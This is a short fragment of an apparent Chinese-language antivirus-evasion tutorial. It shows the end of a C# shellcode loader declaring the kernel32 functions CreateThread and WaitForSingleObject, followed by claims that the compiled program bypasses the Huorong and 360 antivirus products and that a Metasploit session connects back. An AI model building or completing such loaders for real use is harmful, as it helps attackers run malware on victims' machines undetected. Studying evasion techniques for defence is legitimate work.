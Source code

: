 ```

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}

```
在vs2017中新建C#项目,编译运行,火绒和360均可绕过。

![bbe87ef68078eeab762c4935b162c2f8](images/2020.03-bypass-04/12.png)

msf中正常上线

![7d85c311b20e7cfbb04f085e8193ac1f](images/2020.03-bypass-04/13.png)
